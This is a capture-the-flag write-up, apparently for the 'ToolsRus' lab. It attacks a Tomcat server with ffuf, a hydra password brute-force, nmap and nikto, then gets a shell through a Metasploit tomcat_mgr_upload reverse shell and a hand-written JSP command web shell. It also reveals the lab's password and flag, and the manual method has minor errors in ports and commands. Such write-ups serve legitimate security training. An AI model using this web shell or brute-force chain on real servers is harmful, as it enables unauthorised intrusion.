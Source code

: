 # ToolsRus

## Challenge Information
- **Challenge Name**: ToolsRus
- **Category**: Web Exploitation
- **Difficulty Level**: Easy

## Initial Enumeration

1. From the given tools to be used, start using the first one. i.e. dirbuster. But I used `ffuf` instead, due to its its simplicity and efficiency:
```bash
ffuf -u http://<IP_ADDRESS>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40 -e .php,.txt,.bak,.html
```
This gives the very first directory `guidelines`.

2. Open this directory in the browser `http://<IP_ADDRESS>/guidelines`. This will give some content in which the name is given as `bob`.

3. When we did the directory traversal, we found another directory `/protected`. This is the answer for this.

4. When we visit this directory, it asks for authentication. The username is obviously `bob`. Now we have to find the password. So lets use hydra now:
```bash
hydra -l bob -P /usr/share/wordlists/rockyou.txt -t 1 -f <IP_ADDRESS> http-get /protected/
```
This will give us the password `bubbles`.

5. When we open this directory with the correct credentials, the web page shows that the file has been moved to another port. So now lets scan the ipaddress with nmap:
```bash
nmap -sV -p 1234 <IP_ADDRESS>
```
This will give the currently open port `1234`.

6. Visit the port: `http://<IP_ADDRESS>:1234/`. It will take to a new webpage where the information of the server can be found: `Apache Tomcat/7.0.88`.

7. Now as istructed, lets run the command:
```bash
nikto -h http://<IP_ADDRESS>:1234/manager/html -id bob:bubbles
```
for the specified directory with the known credentials. This will give some data in which the information of some files is also given. Count the total number of files: `5`.

8. If we run a simple nmap command:
```bash
nmap <IP_ADDRESS>
```
It will give some open ports. There will be a port `80` for http. Scan this port:
```bash
nmap -sV -p 80 <IP_ADDRESS>
```
This will give the version of the server `Apache/2.4.18`.

9. The version of the `Apache-Coyote` can be seen in the start of the result when we ran the nikto command: `1.1`.

## Exploitation Methods

### Method 1 - Using Metasploit
- open the metasploit console using the command `msfconsole`.
- run the command `search type:exploit tomcat` to search for the exploits of tomcat.
- using the command `use exploit/multi/http/tomcat_mgr_upload`, select the exploit `exploit/multi/http/tomcat_mgr_upload` since we are dealing with the uploading of a script to get the reverse shell.
- use command `show options` to see the options that we need to fill up before running the exploit. now we have to run the following command to add the required options:
1. set target 0
2. set httppassword bubbles
3. set httpusername bob
4. set rhost <IP_ADDRESS>
5. set rport 1234
6. set lhost <YOUR_THM_VPN_IP>
7. set lport 4444

10. After all these, again run the options command and verify all the options are set properly. now use command `run` to run the exploit. After the successful execution, type `shell` to get the shell. Now run `whoami` to check the user. It will give us `root`.

11. Now run the command `ls`, which will many directories in which one directory with the name of `root` is also present. Navigate into that `cd root`. Again see what files are present in there `ls`. Here you will see the file `flag.txt`. Read the contents of this file `cat flag.txt` and we will get the flag `ff1fc4a81affcc7688cf89ae7dc6e0e1`.

### Method 2 - Manual Exploitation
If you face any problem in running the exploit in metasploit, we can just upload the shell directly into the webpage. If we simply do some research that `how can we get reverse shell in Apache Tomcat/7.0.88?`, we will come to know that the directory `/manager` can help us here. So just open this directory `http://<IP_ADDRESS>/manager`. This will ask for the credentials. Simply use the credentials that we got before `bob, bubbles`. This will open a server page for the manager. Here we can see an option for uploading `war` files. Create a war file using the following steps:
- create a shell.jsp file with the following contents:
```bash
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        String s = null;
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
        while ((s = sI.readLine()) != null) {
            out.println(s);
        }
    }
%>
```

- run the commands:
```bash
mkdir -p mywebapp/WEB-INF
cp shell.jsp mywebapp/
jar -cvf shell.war -C mywebapp/ .
```
10. Now you have a shell.war file. Deploy it on the webpage, which will give message `ok` in the message field. Now simply use the url to get the user of the server `http://<IP_ADDRESS>/shell/shell.jsp?cmd=whoami`. This will give you the answer `root`.

11. Now run the url `http://<IP_ADDRESS>/shell/shell.jsp?cmd=ls`, which will many directories in which one directory with the name of `root` is also present. Navigate into that `http://<IP_ADDRESS>/shell/shell.jsp?cmd=cd root`. Again see what files are present in there `http://<IP_ADDRESS>/shell/shell.jsp?cmd=ls`. Here you will see the file `flag.txt`. Read the contents of this file `http://<IP_ADDRESS>/shell/shell.jsp?cmd=cat flag.txt` and we will get the flag `ff1fc4a81affcc7688cf89ae7dc6e0e1`.
